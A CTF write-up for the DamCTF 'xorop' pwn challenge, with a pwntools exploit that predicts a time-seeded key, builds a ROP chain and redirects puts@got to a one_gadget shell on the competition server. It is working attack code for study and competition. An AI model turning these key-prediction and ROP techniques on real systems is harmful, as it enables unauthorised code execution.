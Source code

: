 ​Hi,
we get first blood on this one, so a little write up follows...

the key is generated with a dumb algorithm (srand(time(0)) and some xor..
it depends on time so..
the server and the attacker must have the same date to generate the good key

this key is added to libc addresses on .bss (got) to make them unusable...

the idea, is to calculate the negative key + the offset from puts address in libc to a onegadget
then we return back to the function which encode the libc addresses to cancel the libc addresses modifications on .bss
then we just call puts, which will contain the onegadget address by now

the key was stored at address 0x600c38 on .bss,
we modify it with a xor gadget (gadget3)

it takes 2 o 3 tries to work sometimes...no more..

stdin is closed by the program, and will need to be redirected to fd number 3, that's why we do "/bin/sh 1>&3" first,
to see the output of commands

brought to you, by nobodyisnobody , pwner for **RootMeUpBeforeYouGoGo**


```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
from pwn import *
from ctypes import CDLL
from math import *

libc = CDLL("libc.so.6")


context.log_level = 'info'

#setting
do_remote = 1
remote_host = 'chals.damctf.xyz'
remote_port = 31228
challenge_exe = "./xorop"

context(arch = 'amd64', os = 'linux', endian="little")

puts_plt = 0x000000000400620

gadget3 = 0x400708	# xor    QWORD PTR [rdi],rsi / add    rdi,0x8 / cmp    rdx,rdi / ja     400708 / ret
gadget4 = 0x000000000040088f  # pop rdi ; ret
gadget5 = 0x000000000040088d  # pop rsi ; pop r15 ; ret
gadget6 = 0x400890		# ret

# get time
now = int(floor(time.time()))

if do_remote == 1:
  p = connect(remote_host, remote_port)
else:
  p = process(challenge_exe, env={'LD_PRELOAD':'./libc.so.6'})

p.sendafter('continue.\n', '\x00')

# initialize with srand(time(0))
libc.srand(now)
info('now = '+str(now))

key = libc.rand()
if (key & 0x80000000):
  key = (0xffffffff80000000 | (key & 0x7fffffff))
nrand = libc.rand()
if (nrand & 0x80000000): 
  nrand = (0xffffffff80000000 | (nrand & 0x7fffffff) )
key = key ^ (nrand<<21)
key = (key ^ (libc.rand()<<42))&0xffffffffffffffff

# negate the key + offset of onegadget
negkey = (0 - (key + 0x316cb ))&0xffffffffffffffff      # 0x4f365 execve("/bin/sh", rsp+0x40, environ)
info('my key = '+hex(key)+'  (negkey = '+hex(negkey)+')')

# we use xor gadget to change the key to it's negative + offset of (onegadget - puts) in libc
payload = p64(gadget4) + p64(0x600c38)
payload += p64(gadget5) + p64(key ^ negkey) + p64(0)
payload += p64(gadget3)
# we return to the program that encode the libc addresses in .bss, but this time it will decode them with the negative key
payload += p64(0x4007d4)
payload += p64(0)*9
# we add a gadget to align the stack
payload += p64(gadget6)
# then we jump to the one_gadget (which is in puts@got now)
payload += p64(puts_plt)

p.sendlineafter('memfrob?\n', p64(0) + p64(0xdeadbeef)*7 + p64(negkey & 0xffffffff) + payload)
p.readuntil('4 u.\n')

p.sendline('/bin/sh 1>&3')
info('Ok Take your flag dude...')
p.sendline('cat flag')

p.interactive()

```

